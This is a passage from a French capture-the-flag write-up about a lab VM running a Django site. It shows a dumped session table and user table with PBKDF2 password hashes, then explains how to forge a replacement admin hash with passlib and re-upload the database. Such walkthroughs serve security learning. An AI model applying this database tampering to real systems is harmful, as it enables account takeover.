 ```console
7toi97v6ux7duk4o9mzu7v34oiwhlexs|YjcyYTMwNzY4Mzk2MTFmMmQyYmE1MGZhMzA2MzNmYjdiODA3NGEwMDp7Il9hdXRoX3VzZXJfaGFzaCI6IjliMThhNzgyNjI4YjEzZDFhY2E4YjAwMjA3MTIwMWUxODUzNjMyMTIiLCJfYXV0aF91c2VyX2JhY2tlbmQiOiJkamFuZ28uY29udHJpYi5hdXRoLmJhY2tlbmRzLk1vZGVsQmFja2VuZCIsIl9hdXRoX3VzZXJfaWQiOiI4In0=|2017-09-11 22:37:35.697643

sqlite> select * from auth_user;
id|password|is_superuser|username|first_name|last_name|email|is_staff|is_active|date_joined|last_login
1|pbkdf2_sha256$20000$9k0TYJltYWk5$rE0aQA4DGFxEjBhBH0BEJhFsF2Jx63690a8VGE/9a+c=|1|admin|||admin@bulldogindustries.com|1|1|2017-08-18 22:42:27.888865|2017-08-19 06:14:22.419010
3|pbkdf2_sha256$20000$AvMG3SPMFdWk$br74kiJcinPLKkqG+i9G+2MavMVW9IXDl2TSeQ5My+A=|0|alan||||1|1|2017-08-19 05:57:32|
4|pbkdf2_sha256$20000$LgCCwZ1qFhSK$xv2NHkto76GEp11lXNUFPsiolvoV8c8R/PRl2/XccX0=|0|william||||1|1|2017-08-19 06:02:07|
5|pbkdf2_sha256$20000$IjvfpwWo8tw9$9PZgYsZCcRz3dLVU/4TnXa9i2VcybBnBedCyNjk3Sak=|0|malik||||1|1|2017-08-19 06:02:50|
6|pbkdf2_sha256$20000$ooicdWHyxlTk$oNMBAZDKarihoPIzzYAhDq+4cR8JtJGt9JQIA8q1SX8=|0|kevin||||1|1|2017-08-19 06:03:22|
7|pbkdf2_sha256$20000$nmdkvhu3yqa9$8VSo44h9fXYj6FLavolYDZ7P5PhFBLeKBmLkBlNpGTk=|0|ashley||||1|1|2017-08-19 06:04:18|
8|pbkdf2_sha256$20000$QFeEaqreqK8o$ldGl5qhFnyB+tFrOflSwxSGO3Xt/mL4sjBiCPyPusU4=|0|nick||||1|1|2017-08-19 06:06:08|2018-01-01 00:11:00.111111
9|pbkdf2_sha256$20000$lA6iOt4XGXLw$0VHpbYjNiFN4CnHisuB+bFh72A6sn03Q+d34Laj7jkM=|0|sarah||||1|1|2017-08-19 06:06:56|2018-01-01 00:00:11.000000
```

Dommage, les cookies de session stockés en base de données ont expiré et ne peuvent être rejoués. Cela dit, il semble possible de jouer avec les mots de passe. S'il paraît [impensable de les casser](https://www.sjoerdlangkemper.nl/2016/05/25/iterative-password-hashing/) au vu du temps de calcul que PBKDF2-HMAC-SHA256 demande, l'autre option consiste à les modifier à notre guise. Le mot de passe ciblé sera bien évidemment celui du compte admin.

## Bonus n°2 : Modification du mot de passe du compte admin Django

_Nota Bene : Django utilise un format différent de hash basé sur l'algorithme PBKDF2, PBKDF2-HMAC-SHA256, ce qui m'a fait perdre quelques heures dans la résolution de cette VM. Il faut utiliser la classe [passlib.hash.django_pbkdf2_sha256](http://passlib.readthedocs.io/en/stable/lib/passlib.hash.django_std.html#django-1-4-hashes) et non [passlib.hash.pbkdf2_sha256](http://passlib.readthedocs.io/en/stable/lib/passlib.hash.pbkdf2_digest.html), au risque d'obtenir des erreurs 500 à répétition après avoir réuploadé la nouvelle base de données SQLite3.

```console
root@blinils:~# python
Python 2.7.14+ (default, Dec  5 2017, 15:17:02) 
[GCC 7.2.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from passlib.hash import pbkdf2_sha256
>>> hash = pbkdf2_sha256.using(rounds=20000).hash("blinils")
>>> hash
'$pbkdf2-sha256$20000$dU7pfY8xBkCoVcrZm5Pyvg$AOBAk3cJttJtAGdjx4GrMOjO9h4ZUP0GgU4i16.I0lQ'
```
